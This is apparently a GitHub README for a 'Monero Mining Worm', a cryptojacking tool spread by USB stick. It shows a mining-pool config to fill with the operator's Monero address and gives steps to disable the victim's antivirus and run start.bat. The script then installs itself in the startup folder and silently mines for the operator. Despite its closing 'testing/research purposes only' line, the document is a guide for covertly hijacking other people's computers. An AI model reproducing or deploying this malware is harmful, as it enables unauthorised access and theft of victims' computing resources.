 # Monero Mining Worm
Monero Mining worm. Spreads manually on a USB stick (only one file to start and the target computer is affected.)


# Setup

You will start by needing a Monero address and a monero mining pool, (MoneroOcean is default).

1. Navigate to xmrig/config.json and edit the following lines:

```json
{
   "url": "gulf.moneroocean.stream:10064 ", # mining pool url (leave as default if you don't know what a mining pool is)
   "user": "MONERO-ADDRESS-HERE", # your Monero address
   "pass": "hidden", # name of the machine that will be displayed on the mining pool
}
```

2. copy the code onto a USB drive
3. Setup Complete

# Spreading Process

1. Disable the antivirus on the target computer or add an exception for xmrig
2. Plug the USB drive into the computer or download your program from the cloud
3. Run start.bat. The worm will copy itself to the startup folder and will silently start mining Monero for you.

# This project is intended for testing/research purposes only.
